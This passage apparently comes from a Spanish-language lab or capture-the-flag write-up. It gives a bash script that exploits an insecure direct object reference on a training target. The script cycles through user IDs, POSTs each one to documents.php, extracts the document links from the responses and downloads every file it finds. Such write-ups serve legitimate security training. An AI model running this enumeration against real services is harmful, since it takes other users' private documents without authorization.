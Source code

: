 ![alt text](image-35.png)

Creo el siguiente script 


```sh
#!/bin/bash

# Configuración del servidor y endpoint
host="94.237.48.35:46523"
url="http://$host/documents.php"

# Iterar sobre los valores de uid de 1 a 20
for i in {1..20}; do
    echo "[+] Enviando solicitud para UID: $i"

    # Realizar la solicitud POST y extraer los enlaces de cualquier tipo de archivo
    links=$(curl -s -X POST -H "Host: $host" --data-binary "uid=$i" "$url" | 
        grep -oP '(?<=href=\x27|href=\x22)/documents/[^"'\'' ]+' | 
        sed "s/^/'/" | awk -F"'" '{print $2}')

    if [[ -z "$links" ]]; then
        echo "[-] No se encontraron archivos para UID: $i"
        continue
    fi

    # Descargar los archivos encontrados
    for link in $links; do
        full_url="http://$host$link"
        echo "[+] Descargando: $full_url"
        wget -q "$full_url" || echo "[!] Error descargando $full_url"
    done
done

echo "[+] Descargas completadas."

```
